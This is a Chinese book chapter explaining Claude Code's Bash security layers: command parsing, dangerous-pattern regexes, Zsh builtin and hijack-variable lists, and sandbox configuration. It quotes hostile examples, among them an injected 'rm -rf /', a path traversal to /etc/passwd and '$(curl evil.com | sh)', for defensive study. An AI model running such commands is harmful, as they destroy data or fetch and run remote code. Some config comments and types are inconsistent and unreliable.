





# 第 13 章：Bash 安全模型

> 本章目标：深入理解 Claude Code 的多层 Bash 安全防护机制，掌握如何安全地执行 Shell 命令。

## 13.1 安全威胁模型

在 AI 辅助的命令行环境中，安全威胁无处不在。理解这些威胁是设计有效防护的前提。

### 13.1.1 主要威胁类别



### 13.1.2 真实攻击示例

**示例 1：命令注入**

```bash
# 用户输入文件名: "file.txt; rm -rf /"
cat "file.txt; rm -rf /"
```

**示例 2：路径遍历**

```bash
# 用户输入路径: "../../../etc/passwd"
cat "../../../etc/passwd"
```

**示例 3：命令替换绕过**

```bash
# 使用 $() 执行任意命令
echo "User input: $(curl evil.com | sh)"
```

**示例 4：Zsh 特性绕过**

```bash
# Zsh = 扩展绕过前缀检查
=curl evil.com  # → /usr/bin/curl evil.com
```

## 13.2 多层防护机制

Claude Code 实现了多层防护，每层针对不同的攻击向量：



### 13.2.1 第一层：命令解析

**Tree-sitter 集成**

```typescript
// 使用 Tree-sitter 进行精确的命令解析
import { tryParseShellCommand } from './shellQuote.js'

function parseCommand(command: string): ParsedCommand {
  return tryParseShellCommand(command)
}

// 解析结果包含：
// - 基础命令
// - 参数列表
// - 重定向目标
// - 管道链
```

**引用分析**

```typescript
// 提取引用内容，处理转义
function extractQuotedContent(command: string): QuoteExtraction {
  let inSingleQuote = false
  let inDoubleQuote = false
  let escaped = false

  const result = {
    withDoubleQuotes: '',
    fullyUnquoted: '',
    unquotedKeepQuoteChars: '',
  }

  for (const char of command) {
    if (escaped) {
      // 处理转义字符
      escaped = false
      result.withDoubleQuotes += char
      if (!inSingleQuote && !inDoubleQuote) {
        result.fullyUnquoted += char
      }
      continue
    }

    if (char === '\\' && !inSingleQuote) {
      escaped = true
      continue
    }

    if (char === "'" && !inDoubleQuote) {
      inSingleQuote = !inSingleQuote
      continue
    }

    if (char === '"' && !inSingleQuote) {
      inDoubleQuote = !inDoubleQuote
      continue
    }

    result.withDoubleQuotes += char
    if (!inSingleQuote && !inDoubleQuote) {
      result.fullyUnquoted += char
    }
  }

  return result
}
```

### 13.2.2 第二层：模式匹配

**危险模式库**

```typescript
const COMMAND_SUBSTITUTION_PATTERNS = [
  { pattern: /<\(/, message: 'process substitution <()' },
  { pattern: />\(/, message: 'process substitution >()' },
  { pattern: /=\(/, message: 'Zsh process substitution =()' },
  { pattern: /(?:^|[\s;&|])=[a-zA-Z_]/, message: 'Zsh equals expansion' },
  { pattern: /\$\(/, message: '$() command substitution' },
  { pattern: /\$\{/, message: '${} parameter substitution' },
  { pattern: /\$\[/, message: '$[] arithmetic expansion' },
  { pattern: /~\[/, message: 'Zsh parameter expansion' },
  { pattern: /\(e:/, message: 'Zsh glob qualifiers' },
  { pattern: /<#/, message: 'PowerShell comment' },
]
```

**检测流程**

```typescript
function validateDangerousPatterns(context: ValidationContext): PermissionResult {
  const { unquotedContent, fullyUnquotedContent } = context

  // 检查命令替换模式
  for (const { pattern, message } of COMMAND_SUBSTITUTION_PATTERNS) {
    if (pattern.test(unquotedContent) || pattern.test(fullyUnquotedContent)) {
      logEvent('tengu_bash_security_check_triggered', {
        checkId: BASH_SECURITY_CHECK_IDS.DANGEROUS_PATTERNS_COMMAND_SUBSTITUTION,
      })
      return {
        behavior: 'ask',
        message: `Command contains ${message}`,
      }
    }
  }

  return { behavior: 'passthrough' }
}
```

### 13.2.3 第三层：语义分析

**Zsh 危险命令检测**

```typescript
const ZSH_DANGEROUS_COMMANDS = new Set([
  // 模块加载网关
  'zmodload',
  // 等价执行
  'emulate',
  // 文件操作内置命令（绕过二进制检查）
  'sysopen', 'sysread', 'syswrite', 'sysseek',
  'zpty', 'ztcp', 'zsocket',
  'mapfile',
  'zf_rm', 'zf_mv', 'zf_ln', 'zf_chmod',
  'zf_chown', 'zf_mkdir', 'zf_rmdir', 'zf_chgrp',
])

function validateZshCommands(context: ValidationContext): PermissionResult {
  const { baseCommand } = context

  if (ZSH_DANGEROUS_COMMANDS.has(baseCommand)) {
    return {
      behavior: 'ask',
      message: `Command ${baseCommand} is not allowed in Zsh mode`,
    }
  }

  return { behavior: 'passthrough' }
}
```

**环境变量检测**

```typescript
const BINARY_HIJACK_VARS = new Set([
  'GIT_ASKPASS',
  'GIT_TERMINAL_PROMPT',
  'SSH_ASKPASS',
  'SSH_ASKPASS_REQUIRE',
  'VISUAL',
  'EDITOR',
  'PAGER',
])

function validateDangerousVariables(context: ValidationContext): PermissionResult {
  const { fullyUnquotedContent } = context

  for (const varName of BINARY_HIJACK_VARS) {
    const pattern = new RegExp(`\\b${varName}=`)
    if (pattern.test(fullyUnquotedContent)) {
      return {
        behavior: 'ask',
        message: `Command sets ${varName} which may hijack execution`,
      }
    }
  }

  return { behavior: 'passthrough' }
}
```

### 13.2.4 第四层：沙盒执行

**沙盒决策逻辑**

```typescript
export function shouldUseSandbox(input: SandboxInput): boolean {
  // 1. 沙盒功能是否启用
  if (!SandboxManager.isSandboxingEnabled()) {
    return false
  }

  // 2. 用户是否明确禁用沙盒
  if (input.dangerouslyDisableSandbox && SandboxManager.areUnsandboxedCommandsAllowed()) {
    return false
  }

  // 3. 命令是否在排除列表中
  if (containsExcludedCommand(input.command)) {
    return false
  }

  return true
}
```

**沙盒配置**

```typescript
interface SandboxConfig {
  filesystem: {
    read: {
      denyOnly: string[]
      allowWithinDeny: string[]
    }
    write: {
      allowOnly: string[]
      denyWithinAllow: string[]
    }
  }
  network: {
    allowedHosts?: string[]
    deniedHosts?: string[]
    allowUnixSockets?: boolean[]
  }
}
```

## 13.3 危险模式检测

### 13.3.1 命令替换检测

命令替换是最常见的攻击向量之一：

```typescript
// 检测各种命令替换形式
const SUBSTITUTION_PATTERNS = [
  // Bourne shell
  /\$\(/,                 // $(command)
  /\`/,                   // `command`
  // Bash 扩展
  /\$\{/,                 // ${parameter}
  /\$\[/,                 // $[arithmetic]
  // Zsh 扩展
  /=\(/,                  // =(command)
  /~\[/,                  // ~[parameter]
  /\(e:/,                 // (e:glob)
  // 进程替换
  /<\(/,                  // <(command)
  />\(/,                  // >(command)
]
```

**绕过尝试检测**

```typescript
// 检测绕过引用的命令替换
function validateCommandSubstitutionWithQuotes(command: string): boolean {
  // 移除引用后检测
  const unquoted = extractQuotedContent(command).fullyUnquoted

  for (const pattern of SUBSTITUTION_PATTERNS) {
    if (pattern.test(unquoted)) {
      return true
    }
  }

  return false
}
```

### 13.3.2 输入/输出重定向检测

```typescript
function validateRedirections(context: ValidationContext): PermissionResult {
  const { originalCommand, fullyUnquotedContent } = context

  // 检测输出重定向到可疑路径
  const outputRedirects = [
    />(?!\/dev\/null)/g,    // 输出到文件
    />>/g,                   // 追加到文件
  ]

  // 检测输入重定向
  const inputRedirects = [
    /<(?!\/dev\/null)/g,    // 从文件输入
  ]

  // 检测危险路径模式
  const DANGEROUS_PATHS = [
    /\/etc\//,              // 系统配置
    /\/usr\//,              // 系统程序
    /\/var\//,              // 可变数据
    /\.\.\//,               // 父目录遍历
  ]

  // 执行检测...
}
```

### 13.3.3 Shell 特定保护

**Bash vs Zsh**

```typescript
// Zsh 有一些 Bash 没有的危险特性
const ZSH_SPECIFIC_PATTERNS = [
  // = 扩展
  { pattern: /(?:^|[\s;&|])=[a-zA-Z_]/, message: 'Zsh equals expansion' },
  // Glob 限定符
  { pattern: /\(e:/, message: 'Zsh glob qualifier' },
  { pattern: /\(\+/, message: 'Zsh glob with command execution' },
  // Always 块
  { pattern: /\}\s*always\s*\{/, message: 'Zsh always block' },
]

// Bash 有一些 Zsh 没有的危险特性
const BASH_SPECIFIC_PATTERNS = [
  // 过程替换
  { pattern: /<\(/, message: 'Process substitution <()' },
  { pattern: />\(/, message: 'Process substitution >()' },
]
```

## 13.4 沙盒执行

### 13.4.1 沙盒架构

```mermaid
graph TB
    subgraph "沙盒架构"
        A[应用层] --> B[Sandbox Manager]
        B --> C[@anthropic-ai/sandbox-runtime]
        C --> D[隔离环境]
    end

    D --> E[文件系统隔离]
    D --> F[网络隔离]
    D --> G[进程隔离]

    E --> E1[允许读路径]
    E --> E2[拒绝读路径]
    E --> E3[允许写路径]

    F --> F1[允许主机]
    F --> F2[拒绝主机]
    F --> F3[Unix Socket 控制]

    G --> G1[进程命名空间]
    G --> G2[网络命名空间]
    G --> G3[挂载命名空间]
```

### 13.4.2 文件系统隔离

```typescript
// 沙盒文件系统配置
interface FilesystemConfig {
  read: {
    // 只能读这些目录
    denyOnly: string[]
    // 在拒绝列表中的例外
    allowWithinDeny: string[]
  }
  write: {
    // 只能写这些目录
    allowOnly: string[]
    // 在允许列表中的例外
    denyWithinAllow: string[]
  }
}

// 示例配置
const config: FilesystemConfig = {
  read: {
    denyOnly: [
      '/etc',
      '/usr',
      '/var',
    ],
    allowWithinDeny: [
      '/etc/passwd',  // 特定文件允许
    ],
  },
  write: {
    allowOnly: [
      '$TMPDIR',
      '/Users/username/project',
    ],
    denyWithinAllow: [
      '/Users/username/project/.env',  // 排除敏感文件
    ],
  },
}
```

### 13.4.3 网络隔离

```typescript
// 网络访问控制
interface NetworkConfig {
  allowedHosts?: string[]    // 白名单
  deniedHosts?: string[]     // 黑名单
  allowUnixSockets?: string[] // 允许的 Unix Socket
}

// 示例配置
const config: NetworkConfig = {
  allowedHosts: [
    'api.github.com',
    'github.com',
  ],
  deniedHosts: [
    '*.evil.com',
    '0.0.0.0/0',  // 默认拒绝所有
  ],
  allowUnixSockets: [
    '/var/run/docker.sock',
  ],
}
```

### 13.4.4 沙盒决策流程



## 13.5 沙盒决策逻辑

### 13.5.1 排除命令

```typescript
// 用户配置的排除命令
function containsExcludedCommand(command: string): boolean {
  const settings = getSettings()
  const excluded = settings.sandbox?.excludedCommands ?? []

  // 分割复合命令
  const subcommands = splitCommand_DEPRECATED(command)

  for (const subcommand of subcommands) {
    // 移除环境变量和包装器
    const candidates = stripEnvVarsAndWrappers(subcommand)

    for (const pattern of excluded) {
      const rule = parseRule(pattern)
      if (matches(rule, candidates)) {
        return true
      }
    }
  }

  return false
}
```

### 13.5.2 沙盒违规处理

```typescript
// 沙盒违规处理策略
interface SandboxViolation {
  type: 'filesystem' | 'network' | 'process'
  operation: string
  path?: string
  host?: string
}

function handleSandboxViolation(violation: SandboxViolation): string {
  switch (violation.type) {
    case 'filesystem':
      return `Filesystem access denied: ${violation.operation} on ${violation.path}`

    case 'network':
      return `Network access denied: ${violation.operation} to ${violation.host}`

    case 'process':
      return `Process operation denied: ${violation.operation}`

    default:
      return 'Sandbox violation'
  }
}
```

## 13.6 设计理念与权衡

### 13.6.1 防御深度



**作者观点：** 多层防御是安全设计的黄金标准。任何单一防御都可能被绕过，但多层防御的组合使得攻击变得极其困难。

### 13.6.2 可用性 vs 安全性

| 安全级别 | 用户体验 | 适用场景 |
|----------|----------|----------|
| **无限制** | 最佳 | 个人项目、沙盒环境 |
| **提示模式** | 良好 | 大多数开发场景 |
| **自动拒绝** | 较差 | 高安全要求 |
| **沙盒** | 一般 | 不受信代码 |

### 13.6.3 性能开销



## 13.7 可复用模式总结

### 模式 1：多层防御

**描述：** 通过多层独立的防御机制提供纵深防御。

**适用场景：**
- 安全敏感应用
- 用户输入处理
- 命令执行

**代码模板：**

```typescript
function multiLayerDefense(input: string): Result {
  // 第一层：语法验证
  const layer1 = validateSyntax(input)
  if (!layer1.valid) return layer1

  // 第二层：模式匹配
  const layer2 = validatePatterns(input)
  if (!layer2.valid) return layer2

  // 第三层：语义分析
  const layer3 = validateSemantics(input)
  if (!layer3.valid) return layer3

  // 第四层：沙盒执行
  return executeInSandbox(input)
}
```

### 模式 2：白名单优先

**描述：** 默认拒绝，明确允许。

**适用场景：**
- 权限系统
- 资源访问
- 命令执行

**代码模板：**

```typescript
function whitelistAccess(resource: string, whitelist: string[]): boolean {
  // 默认拒绝
  if (whitelist.length === 0) {
    return false
  }

  // 检查白名单
  for (const pattern of whitelist) {
    if (matches(pattern, resource)) {
      return true
    }
  }

  return false
}
```

### 模式 3：渐进式限制

**描述：** 从最宽松开始，逐步收紧限制。

**适用场景：**
- 用户引导
- 学习曲线平缓
- 安全意识培养

**代码模板：**

```typescript
function progressiveRestriction(user: User, command: Command): Decision {
  const securityLevel = user.securityLevel ?? 'default'

  switch (securityLevel) {
    case 'permissive':
      return { allow: true }

    case 'prompt':
      return { prompt: true }

    case 'restrictive':
      return validateStrict(command)

    default:
      return validateDefault(command)
  }
}
```

## 本章小结

本章深入分析了 Claude Code 的 Bash 安全模型：

1. **威胁模型**：命令注入、路径遍历、环境变量泄露
2. **多层防护**：命令解析、模式匹配、语义分析、沙盒执行
3. **危险模式**：命令替换、重定向、Shell 特定特性
4. **沙盒系统**：文件系统隔离、网络隔离、进程隔离
5. **设计权衡**：安全性 vs 可用性 vs 性能

## 下一章预告

第 14 章将深入分析 Agent 工具，包括：
- Task 工具的实现
- Agent 类型系统
- Agent 生命周期管理
- Agent 间通信
